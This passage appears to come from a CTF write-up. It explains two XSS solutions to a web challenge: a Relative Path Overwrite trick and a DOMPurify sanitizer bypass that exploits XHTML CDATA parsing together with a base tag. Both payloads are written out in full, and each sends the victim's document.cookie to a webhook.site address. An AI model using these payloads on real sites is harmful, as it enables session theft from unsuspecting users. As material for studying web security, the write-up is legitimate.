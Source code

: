 Let's first look at the unintended solution, which is quite interesting.

The unintended solution is to make the bot load this path: `/1;var[Page]=[1];location=location.hash.slice(1)+document.cookie//asd%2f..%2f..%2findex.xhtml#https://webhook.site/65c71cbd-c78a-4467-8a5f-0a3add03e750?`

This exploits RPO (Relative Path Overwrite) to cause mischief. For the backend, `%2f` is interpreted as `/`, so this URL loads `index.xhtml` without any issues.

However, for the browser, the current path becomes `1;var[Page]=[1];location=location.hash.slice(1)+document.cookie//`, so it will load `/1;var[Page]=[1];location=location.hash.slice(1)+document.cookie//main.js`. According to Express's route, the response will be:

```
Page /1;var[Page]=[1];location=location.hash.slice(1)+document.cookie//main.js not found
```

The first line `Page /1` does not throw a "variable is not defined" error because of the hoisting of `var [Page]=[1]`, and the last line `main.js not found` is turned into a comment by the preceding `//`, so the middle part is executed, and the cookie is stolen.

This operation is really cool.

### Sanitized Revenge (3 solves)

This question fixes the unintended behavior, so let's take a look at the expected solution.

First and foremost, the important point of this question is that the webpage is xhtml, not html, so the browser's parsing behavior will be different.

For example, the payload provided by the author:

``` html
<div><div id="url">https://webhook.site/65c71cbd-c78a-4467-8a5f-0a3add03e750?</div><style><![CDATA[</style><div data-x="]]＞</style><iframe name='Page' /><base href='/**/+location.assign(document.all.url.textContent+document.cookie)//' /><style><!--"></div><style>--></style></div>
```

will be parsed by the HTML parser as a style tag + a div with the `data-x` attribute, so DOMPurify won't do anything, and this is valid HTML.

But because we are in xhtml, the CDATA part becomes something that looks like a comment, so after removing it, it becomes:

``` html
<div>
  <div id="url">https://webhook.site/65c71cbd-c78a-4467-8a5f-0a3add03e750?</div>
  <style></style>
  <iframe name='Page' /><base href='/**/+location.assign(document.all.url.textContent+document.cookie)//' /><style><!--"></div><style>--></style></div>
```

The iframe and base that were originally inside the attribute come out.

We need the base because when we encounter CSP like `script-src 'self'`, the first instinct is to use `<iframe srcdoc>` with a script gadget to bypass it. However, in this question, due to the limitation of xhtml, `<` cannot be present in attributes, so we need to use the upcoming `report.js` together with base to change the path.
